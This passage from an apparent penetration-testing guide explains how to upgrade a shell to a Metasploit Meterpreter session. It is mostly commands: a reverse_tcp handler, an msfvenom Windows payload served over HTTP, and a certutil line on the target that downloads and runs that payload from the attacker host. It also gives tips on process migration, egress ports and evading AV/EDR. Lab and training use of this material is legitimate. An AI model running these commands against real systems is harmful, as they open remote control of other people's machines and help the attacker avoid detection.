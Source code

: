 5) Verify:
```
sessions -l
sessions -i <id>
sysinfo
getuid
```

### D) Clean up (both platforms)
- Remove dropped binaries from the target if appropriate:
  - Windows: del C:\Windows\Temp\m.exe (or the filename used)
  - Linux: rm /tmp/m (or the filename used)
- Stop background handlers if no longer needed:
```
jobs -l
jobs -K
```

## Practical tips
- Ensure LHOST is reachable from the target (VPN interface like tun0 is common in labs).
- If sessions -u fails, explicitly use post/multi/manage/shell_to_meterpreter or switch to the manual method.
- Choose the correct payload architecture:
  - windows/x64/meterpreter/reverse_tcp for 64-bit
  - windows/meterpreter/reverse_tcp for 32-bit
  - linux/x64 or linux/x86 accordingly
- For egress-restricted targets, try common outbound ports (443, 80).
- After getting Meterpreter on Windows, migrate to a long-lived process to improve stability.
- Keep the handler running in the background (run -j) before executing payloads on the target.
- In clean lab environments, AV/EDR is usually not active; in the real world, in-memory or less signatured approaches are needed.
- If your original shell is not inside Metasploit, the manual path is the most reliable.

## Minimal cheat sheet (one-screen flow)

- Quick upgrade inside Metasploit:
```
setg LHOST 10.10.14.10
setg LPORT 4444
sessions -l
sessions -u 1
# or:
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST 10.10.14.10
set LPORT 4444
run
```

- Manual Windows:
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.10
set LPORT 4444
run -j
# new terminal
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f exe -o meter64.exe
python3 -m http.server 80
# on target shell
certutil -urlcache -f http://10.10.14.10/meter64.exe meter64.exe && meter64.exe
```
